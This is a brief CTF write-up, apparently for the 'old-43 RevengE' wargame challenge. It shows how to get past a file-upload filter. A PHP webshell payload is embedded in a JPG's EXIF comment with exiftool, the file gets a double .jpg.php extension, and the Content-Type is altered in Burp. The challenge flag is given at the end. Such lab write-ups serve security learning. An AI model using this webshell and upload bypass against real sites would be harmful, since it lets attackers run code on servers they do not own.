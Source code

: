 ```yaml
---
layout: default
title: old-43 RevengE
---
```




Here we need to upload our `webshell`, however, it checks whether the uploaded file isn't some specific unallowed file-type, and also trying to resize the image.

So, we will use `exiftool` to insert our webshell in the comment of the `jpg` file.

`exiftool -Comment="<?php echo system('cat /flag'); ?>" webshell.jpg.php`

And then, upload our webshell. I've changed the Content-type using burp

![Change content-type](./images/old-43-RevengE-burp.png)

![FLAG](./images/old-43-RevengE.png)

**Flag:** ***`FLAG{thank_you_q-roland}`*** 

